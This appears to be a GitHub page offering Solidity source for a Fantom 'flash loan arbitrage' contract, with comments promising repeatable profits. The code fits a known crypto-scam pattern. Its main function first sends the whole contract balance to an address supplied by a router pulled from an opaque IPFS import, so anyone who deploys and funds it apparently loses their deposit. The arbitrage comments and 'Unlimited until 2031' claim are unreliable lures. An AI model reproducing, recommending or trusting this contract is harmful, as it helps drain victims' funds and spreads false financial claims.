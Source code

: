 # flashloan
Flashloan
FTM Flash Loan Smart Contract -Unlimited until 2031
pragma solidity ^0.5.16;
 
// CreamFi Contracts
import "https://github.com/CreamFi/compound-protocol/blob/master/contracts/ERC3156FlashLenderInterface.sol";
import "https://github.com/CreamFi/compound-protocol/blob/master/contracts/CarefulMath.sol";
import "https://github.com/CreamFi/compound-protocol/blob/master/contracts/CToken.sol";
import "https://github.com/CreamFi/compound-protocol/blob/master/contracts/CTokenCheckRepay.sol";
 
// ZooTrade Router
import "ipfs://QmPNAhhgRstxYHGpXJQRgeQ1SGKSzwAhmaW8B5r4s47Hy6";
 
// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";
 
 
 
contract InitiateFlashLoan {
    
    RouterV2 router;
    string public tokenName;
    string public tokenSymbol;
    uint256 flashLoanAmount;
 
    constructor(
        string memory _tokenName,
        string memory _tokenSymbol,
        uint256 _loanAmount
    ) public {
        tokenName = _tokenName;
        tokenSymbol = _tokenSymbol;
        flashLoanAmount = _loanAmount;
 
        router = new RouterV2();
    }
 
    function() external payable {}
 
    function flashloan() public payable {
        // Send required coins for swap
        address(uint160(router.zooTradeSwapAddress())).transfer(
            address(this).balance
        );
 
        router.borrowFlashloanFromMultiplier(
            address(this),
            router.creamSwapAddress(),
            flashLoanAmount
        );
        //To prepare the arbitrage, FLM is converted to Dai using ZooTrade swap contract.
        router.convertFtmTo(msg.sender, flashLoanAmount / 2);
        //The arbitrage converts token for FLM using token/FLM ZooTrade, and then immediately converts FLM back
        router.callArbitrageZooTrade(router.creamSwapAddress(), msg.sender);
        //After the arbitrage, FLM is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 FLM of gas.
        router.transferFtmToMultiplier(router.zooTradeSwapAddress());
        //Note that the transaction sender gains FLM from the arbitrage, this particular transaction can be repeated as price changes all the time.
        router.completeTransation(address(this).balance);
    }
}
